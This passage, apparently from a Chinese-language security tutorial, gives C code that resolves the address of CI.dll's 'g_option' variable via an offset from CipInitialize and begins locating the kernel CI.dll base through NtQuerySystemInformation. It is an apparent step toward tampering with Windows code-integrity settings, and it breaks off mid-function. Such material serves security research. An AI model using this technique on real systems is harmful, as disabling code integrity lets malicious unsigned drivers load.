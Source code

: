 ```plain
ULONG gOption_Value = (*(DWORD*)(CipInitialize + 0x1c)); //获取偏移
    ULONG64 gOption_NextLine = CipInitialize + 0x1c + 5; ////获取下一行
    DWORD64 g_op = (gOption_NextLine & ~(ULONGLONG)0xFFFFFFFF) + ((gOption_NextLine + gOption_Value) & (ULONGLONG)0xFFFFFFFF);
    printf("g_op = %p \r\n",g_op);
```

[![](assets/1699005703-281a3ba067f19a5e4af066c2b207132e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103150934-f0fe45ee-7a17-1.png)

这样就能获取到 R3 下的 g\_option 的地址，但这并不是一个可用的地址。还需要计算出 R0 中的地址，首先获取 R0 中的 CI 模块地址：

```plain
DWORD64 GetCiBaseAdress() {

    HMODULE hModule =  LoadLibraryA("ntdll.dll");
    Fun_NtQuerySystemInformation NtQuerySystemInformation = (Fun_NtQuerySystemInformation)GetProcAddress(hModule, "NtQuerySystemInformation");

    DWORD bufferSize = 0x1024;
    PVOID buffer = malloc(0x1024);
    NTSTATUS ntStatus = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11,buffer, bufferSize,&bufferSize);

    if (ntStatus == 0xC0000004L) {
        free(buffer);
        buffer = malloc((SIZE_T)bufferSize);

        ntStatus = NtQuerySystemInformation(
            (SYSTEM_INFORMATION_CLASS)11,
            buffer,
            bufferSize,
            &bufferSize);
    }

    PRTL_PROCESS_MODULES pvModules = (PRTL_PROCESS_MODULES)buffer;

    for (size_t i = 0; i < pvModules->NumberOfModules; i++)
    {
        if (strstr( (char*)pvModules->Modules[i].FullPathName,"CI.dll") != NULL)
        {
```